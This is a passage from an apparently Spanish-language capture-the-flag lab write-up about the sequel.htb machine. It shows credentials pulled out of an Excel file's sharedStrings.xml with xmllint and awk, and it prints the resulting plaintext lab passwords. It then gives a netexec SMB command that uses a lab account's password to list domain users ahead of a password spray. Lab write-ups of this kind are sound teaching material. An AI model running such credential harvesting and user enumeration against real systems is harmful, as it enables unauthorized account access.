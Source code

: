 ![credentials.png](Images/credentials.png)

creo un archivo users y password para realizar un spray con `netexec`.

#### Descomprimir .xlsx

Tambien se puede hacer descomprimiendo los archivos como cualquier otro zip:

```
unzip accounts.xlsx -d accounts
```

El archivo XML `sharedStrings.xml` en el directorio `xl` contiene la credenciales:

![xml.png](Images/xml.png)

Podemos extraer los datos de forma mas legible con el siguiente comando:

```
xmllint --xpath '//*[local-name()="t"]/text()' xl/sharedStrings.xml | awk 'ORS=NR%5?",":"\n"'
```

- `xmllint --xpath //*[local-name()="t"]` selecciona todos los elementos `<t>` ignorando namespaces.
- `awk ORS=NR%5?",":"\n"` imprime los elementos separados por `,` cada `5` con salto de linea al llegar al quinto.

```
First Name,Last Name,Email,Username,Password
Angela,Martin,angela@sequel.htb,angela,0fwz7Q4mSpurIt99
Oscar,Martinez,oscar@sequel.htb,oscar,86LxLBMgEWaKUnBG
Kevin,Malone,kevin@sequel.htb,kevin,Md9Wlq1E5bZnVDVo
NULL,sa@sequel.htb,sa,MSSQLP@ssw0rd!,
```

Antes de realizar el spray pruebo si tengo permisos para enumerar los usuarios del dominio y los agrego al archivo users:

```
netexec smb sequel.htb -u "rose" -p 'KxEPkKe6R8su' --users
```

```
SMB         10.129.1.36     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.1.36     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.1.36     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                         
SMB         10.129.1.36     445    DC01             Administrator                 2024-06-08 16:32:20 0       Built-in account for administering the computer/domain
SMB         10.129.1.36     445    DC01             Guest                         2024-12-25 14:44:53 0       Built-in account for guest access to the computer/domain
SMB         10.129.1.36     445    DC01             krbtgt                        2024-06-08 16:40:23 0       Key Distribution Center Service Account
SMB         10.129.1.36     445    DC01             michael                       2024-06-08 16:47:37 0        
```
